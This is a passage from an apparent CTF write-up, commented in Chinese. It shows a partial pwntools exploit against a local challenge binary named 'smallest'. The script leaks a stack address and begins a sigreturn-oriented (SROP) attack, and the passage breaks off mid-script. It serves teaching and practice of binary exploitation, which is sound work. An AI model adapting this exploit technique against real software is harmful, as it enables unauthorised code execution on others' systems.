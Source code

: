   ![](img/stack/srop4.JPG)

+ 完整exp

  ```
  # -*- coding: utf-8 -*-
  from pwn import *
  
  context(os='linux',arch='amd64',log_level='debug')
  p = process('./smallest')
  
  main_addr = 0x04000B0
  syscall_addr = 0x04000BE
  
  #三次main_addr是为了构造后面三次跳转
  payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
  p.send(payload)
  #gdb.attach(p)
  #程序成功将三个地址写入栈中，此时执行ret后将程序返回至main_addr,而esp指向第二个main_addr
  #进行新一轮的read，发送3的目的是将当前esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的0x04000B0会变成0x04000B3,这个地址正好对应的是mov  edx, 400h，跳过了xor rax,rax(将rax的值变成0)，read函数的特性，写入了一个字符后，将写入的长度存放在rax，也就是为1，接着执行到ret，将程序返回至0x04000B3，此时esp指向的是刚开始的第三个main_addr
  #由于rax里面的值为1，正好是write函数的系统调用号，也就意味着接下来执行的是write函数,而需要输出的首地址是esp，此时第一个存放的是main_addr,接下来的8到16就是我们需要得到的地址
  #输出地址后，程序执行ret，此时程序又返回到main_addr,程序重新开始
  p.send('\xb3')
  #得到栈地址
  stack_addr = u64(p.recv()[8:16])
  print("stack addr:"+hex(stack_addr))
  
  #构造frame,表示read(0,stack_addr,0x400)
  frame = SigreturnFrame(kernel = "amd64")
  frame.rax = constants.SYS_read
  frame.rdi = 0x0
  frame.rsi = stack_addr
  frame.rdx = 0x400
  ```